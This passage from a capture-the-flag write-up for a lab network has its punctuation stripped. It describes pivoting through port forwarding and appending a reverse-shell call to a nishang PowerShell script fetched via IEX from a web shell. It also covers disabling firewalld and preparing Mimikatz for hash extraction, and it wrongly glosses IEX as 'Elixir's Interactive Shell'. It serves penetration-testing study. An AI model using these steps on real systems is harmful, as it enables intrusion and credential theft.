 1   We are going to set up a listening port on 20001 on the  200 machine and forward all traffic from that port to 20002 on our machine 

     reports Wreath image35 png 

2   Next  we will set up netcat listening on port 20002 on our system 

     reports Wreath image66 png 

3   I used the Invoke PowerShellTcp ps1 nishang script and added Invoke PowerShellTcp  Reverse  IPAddress 10 200 111 200  Port 20001 to the bottom of the script  so that when downloading the script using IEX  more on this later   each line in the script will be automatically executed giving us a reverse shell 

     reports Wreath image20 png 

Note how we are sending the reverse shell to  200 on port 20001  remember all traffic on port 20001 will be directed to our port 20002 on our machine  

4   Now  the firewall will block inbound connections for any ports that are not specified as exceptions  We have to tell the firewall which ports it should allow for connections by using the firewall cmd command as such 

     reports Wreath image41 png 

Alternatively you can type systemctl stop firewalld to completely disable the firewall  though this is one of the noisiest actions a pentester can do  and it should only be done when it is an absolute necessity 

Remember that port 20001 will be directing all traffic to us 

5   Port 20003 will be the HTTP server on  200 which we can set up with python3  m http server 20003  it will serve the powershell reverse shell file  which I renamed to 0xd4y rev ps1  
6   Finally  it s time for the payload  We can download files   strings using IEX  Elixir s Interactive Shell  in powershell   

     reports Wreath image70 png 

Note the usage of three single quotes in the data argument to tell our bash shell to not interpret anything inside the quotes 

Unfortunately  this payload did not work  most likely due to some special characters   I am running commands through a web shell  and therefore it is likely that the server is not understanding some of the special characters in the payload  This means that most likely we will have to url encode the payload for it to work         

     reports Wreath image64 png 

Sure enough  when I executed this command  the output hanged and I got a hit on the python HTTP server 

     reports Wreath image77 png 

So now that 0xd4y rev ps1 was executed by the server  there should be a reverse shell getting sent to port 20001 on  200 which is getting forwarded to us on 20002 

     reports Wreath image17 png 

     Attempting to Use Mimikatz

Now  with a reverse shell as System  we have the necessary privileges to extract password hashes using Mimikatz  a tool used to gather credentials on a system  Before downloading Mimikatz onto the target  it s important to check if the target is a 32bit or 64bit computer by using the systeminfo command 
